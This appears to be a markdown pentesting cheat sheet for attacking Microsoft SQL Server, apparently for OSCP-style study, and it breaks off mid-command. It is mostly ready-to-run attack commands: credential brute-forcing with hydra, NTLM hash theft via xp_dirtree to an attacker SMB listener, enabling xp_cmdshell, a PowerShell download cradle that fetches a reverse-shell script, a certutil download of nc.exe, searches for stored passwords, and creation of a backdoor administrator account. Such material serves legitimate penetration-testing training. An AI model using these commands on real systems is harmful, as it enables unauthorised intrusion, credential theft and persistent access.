 # 🎯 MSSQL Pentesting Checklist & Commands

## What am I realistically expecting to find here?

- [ ] Service banner revealing SQL Server version (for CVE research)
- [ ] Valid credentials via default passwords or brute-force
- [ ] Access to database content (user tables, saved passwords, configs)
- [ ] Ability to execute system commands via xp_cmdshell if enabled
- [ ] Ability to enable xp_cmdshell if permissions allow
- [ ] Possibility to steal NTLM hashes via xp_dirtree triggering SMB authentication
- [ ] Evidence of linked servers for lateral movement
- [ ] Potential to upload payloads or webshells through SQL command output
- [ ] Sensitive data in queryable tables that can be used for further attacks

---

# ✅ MSSQL - Unauthenticated Enumeration

## 🔍 Port Scan & Banner Grabbing

```bash
nmap -p 1433 --script='banner,(ms-sql* or ssl*) and not (brute or dos)' <IP> -oN mssql_nmap.txt
```

## 🔓 Brute-Force Credentials

```bash
hydra -l sa -P rockyou.txt -V <IP> mssql
hydra -L users.txt -P passwords.txt <IP> mssql -vV -I -u

# Nmap brute
nmap -p 1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=passwords.txt <IP>
```

---

# ✅ MSSQL - Authenticated Enumeration & Exploitation

## 🔐 Connect to Server

```bash
# sqsh
sqsh -S <IP> -U sa
sqsh -S <IP> -U sa -P password

# mssqlclient.py
mssqlclient.py <user>:<password>@<IP>
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

## 🧠 Useful Queries

```sql
-- Get version
select @@version;

-- List databases
select name from master.dbo.sysdatabases;

-- Enumerate tables
SELECT table_name from <DB>.INFORMATION_SCHEMA.TABLES;

-- Dump credentials
SELECT * from [DB].[dbo].users;
```

---

## 🛠 CrackMapExec Usage

```bash
crackmapexec mssql <IP> -u <user> -p <pass> --local-auth

# Run query
crackmapexec mssql <IP> -u <user> -p <pass> -q "SELECT name FROM master.dbo.sysdatabases"

# Remote command
crackmapexec mssql <IP> -u <user> -p <pass> -x whoami

# Upload/Download
crackmapexec mssql <IP> -u <user> -p <pass> --put-file /etc/passwd C:/Users/Public/passwd
crackmapexec mssql <IP> -u <user> -p <pass> --get-file C:/Windows/System32/drivers/etc/hosts hosts

# PrivEsc module
crackmapexec mssql <IP> -u <user> -p <pass> -M mssql_priv -o ACTION=privesc
```

---

## 🧲 NTLM Hash Stealing

> NOTE !! poisoning is not allowed in OSCP

```
responder -I tun0

EXEC xp_dirtree '\<KALI_IP>\share_name'

hashcat -m 5600 ./hash /usr/share/wordlists/rockyou.txt --force
```


```sql
-- Trigger SMB auth
exec master..xp_dirtree '\\<attacker_ip>\liodeus\'

# Attacker listener
sudo smbserver.py -smb2support liodeus .
```

Refs:
- https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/
- https://r4j3sh.medium.com/offsec-vault-proving-grounds-practice-writeup-380915703a09

---

## 💥 RCE via xp_cmdshell

### Enable xp_cmdshell

```sql
exec sp_configure 'show advanced options', 1;
reconfigure;
exec sp_configure 'xp_cmdshell', 1;
reconfigure;
```

### Command Execution Examples

```sql
xp_cmdshell 'whoami /all';
xp_cmdshell 'systeminfo';
xp_cmdshell 'net user';
xp_cmdshell 'reg query HKLM /f pass /t REG_SZ /s';
xp_cmdshell 'findstr /si password *.txt *.ini *.config *.xml';
xp_cmdshell "powershell -c iex(new-object net.webclient).downloadstring('http://<IP>/Invoke-PowerShellTcp.ps1')";
xp_cmdshell "certutil -urlcache -f 'http://<IP>/nc.exe' nc.exe";

-- Create admin user
xp_cmdshell 'net user attacker attackerpass /add';
xp_cmdshell 'net localgroup Administrators attacker /add';

-- Enable RDP
xp_cmdshell 'reg add "HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server"
